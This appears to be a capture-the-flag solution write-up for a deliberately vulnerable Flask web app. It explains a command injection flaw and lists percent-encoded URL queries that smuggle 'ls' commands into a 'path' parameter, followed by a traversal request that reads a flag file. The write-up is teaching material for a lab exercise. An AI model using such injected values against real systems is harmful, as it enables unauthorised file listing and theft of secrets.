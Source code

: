 ## Solution

#### Vulnerability

The website is vulnerable to commands injection, as no input checking has been implemented. It is possible to find the *flag.txt* file by injecting *ls* command and navigating over the directories, and later retrieve the contents of it, for example with *cat* command injection or simple directory traversal. Remember to use [Percent-encoding](https://en.wikipedia.org/wiki/Percent-encoding) in your query.

#### Correct queries

Correct query is present in the *correct_query* file.

Example command injection steps to get the flag:

1. `IP:PORT/?path=` - Gets the current directory location
2. `IP:PORT/?path=%26ls%20/home/pi/Desktop/SecurityPi/vulnerable_flask/` - Lists what is inside the current directory
3. `IP:PORT/?path=%26ls%20/home/pi/Desktop/SecurityPi/vulnerable_flask/secrets` - Discovers the secrets
4. `IP:PORT/?path=secrets/flag.txt` - Gets the answer

## Conclusion

Remember to implement input checks in every type of application - always assume the user is malicious. If you are unsure how to do that, just use external tools to help you make safe and secure code. Or let others do it for you before you are experienced enough to do it yourself.
